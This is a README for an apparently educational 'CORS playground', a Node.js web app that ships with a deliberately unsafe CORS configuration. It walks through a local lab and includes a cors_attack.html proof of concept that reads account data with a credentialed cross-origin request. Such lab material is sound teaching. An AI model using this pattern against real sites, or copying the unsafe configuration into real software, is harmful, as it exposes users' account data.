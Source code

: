 ## CORS Playground
### Description

CORS playground provides a simple web application that you can utilise to enhance your comprehension of Cross Origin Resource Sharing. By default, it comes with CORS configured in a very unsafe way and could be easily exploited from different origins.

Observing how both CORS and the session's cookie behave under different configurations will greatly increase your knowledge of these two 
critical components of web application security, their common misconfigurations; exploitation and how to secure them properly.

### Default settings
CORS playground runs over https and listens on port number 5555

### URLs/endpoints
```http
POST /login.html
GET /main_page.html
GET /logout
GET /api/v2/accounts
GET /api/v1/accounts
```

### Example
The following is an example of running CORS playground and exploiting CORS misconfigurations from your local machine.

1. Add the following entries to the file /etc/hosts. You could use all these domains to test different values of the domain and SameSite cookie attribute.
```bash
## Domain for the CORS playground application itself.
127.0.0.1 playground.cors.test
## Same level domain as playground.cors.test.
127.0.0.1 project.cors.test
## Subdomain of playground.cors.test
127.0.0.1 pts.playground.cors.test
## parent domain .com.au
127.0.0.1 pts.playground.cors.test.com.au
## parent domain of playground.cors.test
127.0.0.1 cors.test                
## A totally different domain
127.0.0.1 another.domain.com
```
2. Run CORS playground with the command `nodejs app.js` (if running it for the first time, execute the command `npm install` to install the dependencies) then open up a browser to load `https://playground.cors.test:5555/` and log in.
3. Run an Apache web server over TLS.
4. Paste the following HTML code into a file named cors_attack.html (this file is also included in this repository) and save it on your apache webroot which by default is: `/var/www/html/`

```html
<!DOCTYPE html>
<html>
<head><meta charset="UTF-8"></head>
<body>
<script>
 var xhr = new XMLHttpRequest();
 xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
   console.log(xhr.response);
  }
 }
 url = 'https://playground.cors.test:5555/api/v2/accounts';
 xhr.open('GET',url,true);
 xhr.setRequestHeader('CORS-playground','Penetration Testing Team');
 xhr.withCredentials = true;
 xhr.send();
</script>
</body>
</html>
```
5. Load the following url `https://another.domain.com/cors_attack.html` on a browser, the account information will be displayed on the browser console.
6. Use a http proxy such as Burp or the developer tools of the browser to observe the CORS requests/responses.
### Jump in

1. Add/delete/modify the attributes of the cookie generated within this application. Look for the line:
```node
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'None'});
```
 Some settings you could try:
```node
res.cookie('session',randomvalue.toString(), {domain: '.playground.cors.test', httpOnly: true, secure: true, sameSite: 'Lax'});
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'Strict'});
```
2. In the corsHandler function within the code of this application, uncomment the the section you'd like to play with and comment the remaining ones.
### References:
1. [CORS tutuorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
2. [Same Origin Policy tutorial](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
3. [Cookies tutorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
4. [Portswigger Academy: CORS labs](https://portswigger.net/web-security/cors)
